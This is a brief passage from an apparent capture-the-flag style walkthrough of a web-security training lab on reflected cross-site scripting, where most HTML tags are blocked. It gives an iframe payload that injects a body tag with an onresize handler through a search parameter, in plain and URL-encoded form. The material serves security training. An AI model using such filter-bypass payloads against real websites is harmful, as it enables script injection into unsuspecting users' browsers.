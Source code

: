 <img src="images/image74.png" alt="third" width="500">

Here is the allowed tag

<img src="images/image75.png" alt="third" width="500">

**Step4**

So know we use html tag like

Now we use this payload to solve

`<iframe src="https://0afc00bf03f7a66a84a37da600300093.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>`

Url encoded

`<iframe src="https://0afc00bf03f7a66a84a37da600300093.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`
